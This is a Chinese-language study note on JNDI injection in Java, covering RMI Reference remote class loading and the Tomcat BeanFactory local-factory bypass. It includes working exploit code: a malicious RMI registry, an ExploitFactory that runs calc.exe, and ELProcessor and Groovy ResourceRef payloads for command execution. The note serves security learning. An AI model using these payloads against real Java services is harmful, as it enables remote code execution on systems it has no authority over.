

## JNDI概念

JNDI，java naming and directory interface，是一个用于根据名字查询对象或属性的接口，具体操作由各个provider实现，比如RMI、LDAP。可以查本地容器资源，比如tomcat的jdbc配置

```java
InitialContext ctx = new InitialContext();
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/mydb");
```

也可以查远程资源

```java
ctx.lookup("rmi://127.0.0.1:1099/xxx");
```

这个过程涉及到一些类加载导致的安全漏洞，可用版本如下


## 导致jndi的lookup

LdapCtx.c_lookup()
ComponentContext.p_lookup()
PartialCompositeContext.lookup()
GenericURLContext.lookup()
ldapURLContext.lookup()
InitialContext.lookup()

## JNDI  RMI Reference
https://y4er.com/posts/use-local-factory-bypass-jdk-to-jndi/

JNDI可以lookup一个Reference资源，Reference相当于是一个如何创建对象的说明书，包括`目标类名，工厂类，工厂类地址`。客户端lookup，如果得到的是Reference对象, 会获取这个工厂类（本地或远程）并实例化，然后调用`factory.getObjectInstance`创建对象。factory会根据Reference中的目标类名来创建并返回对象。

因此存在任意远程类加载、本地类加载（TODO）的安全问题


在javax.naming.spi.NamingManager#getObjectFactoryFromReference中
先尝试在本地中加载该工厂类，如果找不到，就在指定的远程中加载。


### 远程类加载

**TODO**: LDAP是否同样能加载任意类?

这时，如果这个工厂类是远程恶意类，在加载或实例化时，可以执行恶意代码。

具体举个例子，先启动一个注册表，绑定一个Reference，名字叫Exploit

```java
package RMI.ClientAttacker.ByReference;  
  
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import java.rmi.AlreadyBoundException;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class RMIRegistry {  
  
    public static void main(String[] args) {  
        try {  
            Registry registry = LocateRegistry.createRegistry(1099);  
            Reference reference = new Reference("Exploit","ExploitFactory","http://127.0.0.1:8888/");  
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);  
            registry.bind("Exploit", referenceWrapper);  
            System.out.println("RMI registry started...");  
        } catch (RemoteException | AlreadyBoundException | NamingException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

客户端lookup这个Exploit

```java
package RMI.ClientAttacker.ByReference;  
  
import javax.naming.InitialContext;  
import java.io.IOException;  
  
public class RMIClient {  
    public static void main(String[] args) throws IOException, ClassNotFoundException {  
        try {  
            InitialContext itx = new InitialContext();  
            Object obj = itx.lookup("rmi://127.0.0.1:1099/Exploit");  
//            System.out.println(obj.getClass());  远程方法调用
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

当客户端lookup这个Exploit的时候，判断本地没有Exploit这个类，会去远程加载 `http://127.0.0.1:8888/ExploitFactory.class` 作为factory，然后去实例化这个类。如果这个类引用了其他自定义类，也会去查找对应类的class文件

因此创建一个ExploitFactory类，编译，并启动http目录服务
```java
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class ExploitFactory implements ObjectFactory{
	static{
		try {
			Runtime.getRuntime().exec("calc.exe");
		} catch (IOException e) {
		}
	}

	@Override
	public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment){
		return 1;
	}
}
```

这里getObjectInstance返回的结果，就是客户端lookup的最终结果，可以根据客户端希望的类来调整，就可以不报错。


在高版本jdk中，sink点com.sun.naming.internal.VersionHelper12#loadClass(java.lang.String, java.lang.String)中加上了条件



而默认情况下trustURLCodebase为false。所以上述方法无法再加载任意远程类。

### 本地类加载
https://y4er.com/posts/use-local-factory-bypass-jdk-to-jndi/

利用条件： tomcat8+或者SpringBoot 1.2.x+或其他有

虽然无法加载远程factory，但是可以从本地加载，也就是说我们可以指定任意的本地factory进行加载、实例化、然后执行`factory.getObjectInstance`


这里factory可以用`org.apache.naming.factory.BeanFactory`

BeanFactory的`getObjectInstance`方法可以实例化我们指定的类。

首先 Reference 类得换成 ResourceRef类进入if语句。


然后经过一定的解析，执行bean的指定方法，且参数为可控，String类型。


javax.el.ELProcessor#eval

```java
package RMI;  
  
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.AlreadyBoundException;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class LocalFactoryRegistry {  
  
    public static void main(String[] args) {  
        try {  
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, null, null, true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));  
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));  
  
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
            registry.bind("Exploit", referenceWrapper);  
            System.out.println("RMI registry started...");  
        } catch (RemoteException | AlreadyBoundException | NamingException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

groovy.lang.GroovyShell#evaluate)

```java
public static void main(String[] args) throws Exception {
    System.out.println("Creating evil RMI registry on port 1097");
    Registry registry = LocateRegistry.createRegistry(1097);
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
    ref.add(new StringRefAddr("forceString", "x=parseClass"));
    String script = "@groovy.transform.ASTTest(value={\n" +
        "    assert java.lang.Runtime.getRuntime().exec(\"calc\")\n" +
        "})\n" +
        "def x\n";
    ref.add(new StringRefAddr("x",script));

    ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
    registry.bind("evilGroovy", referenceWrapper);
}
```

高版本禁用了forceString选项

